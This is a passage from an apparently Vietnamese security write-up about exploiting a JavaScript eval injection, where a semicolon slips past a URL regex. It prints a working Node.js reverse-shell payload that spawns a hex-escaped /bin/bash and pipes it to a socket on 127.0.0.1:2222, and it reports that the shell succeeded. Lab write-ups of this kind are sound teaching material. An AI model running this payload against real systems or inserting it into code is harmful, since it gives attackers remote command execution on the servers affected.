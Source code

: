 Như đã nói bên trên nếu ta truyền thì hàm **eval** sẽ nhận chuỗi **id** làm tham số.
```regex
/item/$1.id
```

![](https://images.viblo.asia/433ca9cf-2894-4235-a22c-762af7be5f09.png)

Vấn đề đặt ra là nếu ta có chèn thêm các giá trị khác thì ta có thể thực thi mã tùy ý. Trong javascript, ngăn cách giữ các câu lệnh ta sử dụng dấu chấm phẩy (**;**) nên ta sẽ sử dụng nó để bypass regex từ đó có thể thực thi mã javascript.

```javascript
;var net=require('net'), sh=require('child_process').exec('\\x2fbin\\x2fbash');var client=new net.Socket();client.connect(2222,'127.0.0.1',function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

![](https://images.viblo.asia/637a0747-bf9e-4a03-8c18-0760bd9a4654.png)

Với đoạn mã javascript trên thì đã đã có thể bypass regex và thực hiện được reverse shell.

![](https://images.viblo.asia/490de4b5-7c57-450b-828b-d8adcc6a1fa1.png)

Sử dụng mã khai thác bên trên đã thành công tạo reverse shell.

![](https://images.viblo.asia/e213379c-d758-446d-82da-8de4e3f0ed9f.png)